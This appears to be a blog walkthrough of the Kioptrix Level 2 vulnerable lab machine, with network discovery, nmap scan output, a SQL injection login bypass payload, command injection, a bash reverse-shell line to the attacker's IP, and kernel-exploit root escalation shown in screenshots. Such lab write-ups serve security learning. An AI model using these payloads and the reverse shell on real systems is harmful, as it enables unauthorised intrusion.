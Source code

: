 ```yaml
---
layout: post
title: "vulhub-Kioptrix Level 2"
date: 2016-06-07 15:56:48 -0500
comments: true
categories: [vulhub, sql injection, kioptrix]
---
```


###Tools:

* netdiscover
* Nmap
* zap
* netcat


<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/kioptrix2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.183 is the target.


Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.183 -p-`

Opening ports: 22, 111, 139, 80, 443, 1024.

```
Starting Nmap 7.12 ( https://nmap.org ) at 2016-06-07 16:07 CDT
NSE: Loaded 138 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 16:07
Completed NSE at 16:07, 0.00s elapsed
Initiating NSE at 16:07
Completed NSE at 16:07, 0.00s elapsed
Initiating ARP Ping Scan at 16:07
Scanning 192.168.79.183 [1 port]
Completed ARP Ping Scan at 16:07, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:07
Completed Parallel DNS resolution of 1 host. at 16:08, 13.00s elapsed
Initiating SYN Stealth Scan at 16:08
Scanning 192.168.79.183 [65535 ports]
Discovered open port 443/tcp on 192.168.79.183
Discovered open port 3306/tcp on 192.168.79.183
Discovered open port 111/tcp on 192.168.79.183
Discovered open port 22/tcp on 192.168.79.183
Discovered open port 80/tcp on 192.168.79.183
Discovered open port 666/tcp on 192.168.79.183
Discovered open port 631/tcp on 192.168.79.183
Completed SYN Stealth Scan at 16:08, 3.99s elapsed (65535 total ports)
Initiating Service scan at 16:08
Scanning 7 services on 192.168.79.183
Completed Service scan at 16:08, 16.01s elapsed (7 services on 1 host)
Initiating OS detection (try #1) against 192.168.79.183
NSE: Script scanning 192.168.79.183.
Initiating NSE at 16:08
Completed NSE at 16:08, 2.14s elapsed
Initiating NSE at 16:08
Completed NSE at 16:08, 0.00s elapsed
Nmap scan report for 192.168.79.183
Host is up (0.00052s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            663/udp  status
|_  100024  1            666/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de 29f9 fbfb 2eb2 beaf e624 3157 090f
|_SHA-1: 560c 9196 6506 fb0f fb81 66b1 ded3 ac11 2ed4 808a
|_ssl-date: 2016-06-07T17:59:07+00:00; -3h09m26s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
666/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:55:D2:EE (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.018 days (since Tue Jun  7 15:42:38 2016)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=201 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 192.168.79.183

NSE: Script Post-scanning.
Initiating NSE at 16:08
Completed NSE at 16:08, 0.00s elapsed
Initiating NSE at 16:08
Completed NSE at 16:08, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.28 seconds
           Raw packets sent: 65555 (2.885MB) | Rcvd: 65551 (2.623MB)

```

Use Nikto to scan  the web service.

{% img  /images/blog/vulhub/kioptrix2/Selection_004.png   [title manually exploit [alt text]] %}


not so excited.


check the webpage:

{% img  /images/blog/vulhub/kioptrix2/Selection_002.png   [title manually exploit [alt text]] %}


may contain SQL injection. Use zap to scan:


{% img  /images/blog/vulhub/kioptrix2/Selection_003.png   [title manually exploit [alt text]] %}


Finally try username as `test`, password `test' or '1'=1'` can bypass the login.

{% img  /images/blog/vulhub/kioptrix2/Selection_005.png   [title manually exploit [alt text]] %}



Now I am looking for command injection:

try:

{% img  /images/blog/vulhub/kioptrix2/Selection_006.png   [title manually exploit [alt text]] %}


get:

{% img  /images/blog/vulhub/kioptrix2/Selection_007.png   [title manually exploit [alt text]] %}

Okay. Now set up netcat on port 4444 and in the web console:

`/bin/bash -i > /dev/tcp/[yourip]/[port] 0<&1`


get the shell:

{% img  /images/blog/vulhub/kioptrix2/Selection_008.png   [title manually exploit [alt text]] %}


But not the root. Keep going...

After enumeration, I found the kernel version is 2.6.9. Now search the exploit


{% img  /images/blog/vulhub/kioptrix2/Selection_009.png   [title manually exploit [alt text]] %}


Find an interestig one. I tried other exploits too, but failed..

Upload it to the target, compile and run it. ROOT:

{% img  /images/blog/vulhub/kioptrix2/Selection_010.png   [title manually exploit [alt text]] %}


DONE

